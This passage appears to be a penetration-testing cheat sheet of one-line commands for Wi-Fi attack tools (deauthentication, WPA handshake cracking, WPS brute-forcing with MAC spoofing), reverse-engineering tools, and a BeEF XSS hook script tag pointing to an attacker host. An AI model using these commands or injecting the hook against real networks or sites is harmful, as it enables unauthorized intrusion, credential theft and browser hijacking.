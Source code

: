 ### 05 - Wireless Attacks

##### [[Aircrack-ng]]
  - `airmon-ng check kill` → stop interfering services before monitor mode
  - `airmon-ng start <iface>` → enable monitor mode (creates mon0 or wlan0mon)
  - `airodump-ng --bssid <BSSID> -c <channel> -w <prefix> <mon_iface>` → capture packets/handshake
  - `aireplay-ng --deauth 10 -a <BSSID> -c <client> <mon_iface>` → deauth client to force handshake
  - `aircrack-ng -w <wordlist> -b <BSSID> <capture>.cap` → crack handshake with wordlist

##### [[Kismet]]
  - `sudo kismet` → launch Kismet server and web UI (http://127.0.0.1:2501)
  - `sudo kismet -c wifi:mon0:name=mon0` → start with specific source
  - Export pcaps via UI or kismet.conf for later analysis

##### [[Reaver]]
  - `sudo reaver -i mon0 -b <BSSID> -c <channel> -vv` → brute-force WPS PIN
  - `sudo reaver -i mon0 -b <BSSID> -c <channel> -K 1 -vv` → try pixie-dust attack (if supported)
  - `--mac=<mac>` → spoof MAC to avoid rate-limits or blocks

##### [[Wifite]]
  - `sudo wifite` → interactive scan and attack menu for nearby APs
  - `sudo wifite --kill --wps --crack --dict /path/to/rockyou.txt -i mon0` → non-interactive WPS + handshake capture + cracking
  - `--kill` → stops NetworkManager/wpa_supplicant while running

### 06 - Reverse Engineering

##### [[Edb-debugger]]
  - `edb ./binary` → open binary in Edb GUI for visual debugging
  - `edb -p <pid>` → attach to running process
  - Use breakpoints (click) and step (F7/F8) to inspect registers/memory

##### [[Gdb]]
  - `gdb ./binary` → start gdb with binary
  - `gdb -p <pid>` → attach to running process
  - `break main` / `run <args>` / `info registers` / `x/32xb $rsp` → common workflow

##### [[Jadx]]
  - `jadx-gui app.apk` → open APK in GUI and browse decompiled Java
  - `jadx -d out app.apk` → decompile APK to folder `out/`
  - `grep -R "KEY" out/` → search decompiled sources for strings

##### [[Radare2]]
  - `r2 -A ./binary` → open and auto-analyze binary
  - `afl` → list functions
  - `pdf @ sym.main` → print disassembly of `main`
  - `VV` → visual mode (interactive disassembly)

### 07 - Exploitation Tools

##### [[Beef-xss]]
  - `beef-xss` → start BeEF UI (http://127.0.0.1:3000/ui/panel)
  - Hook with `<script src="http://<attacker>:3000/hook.js"></script>` → inject into vulnerable page
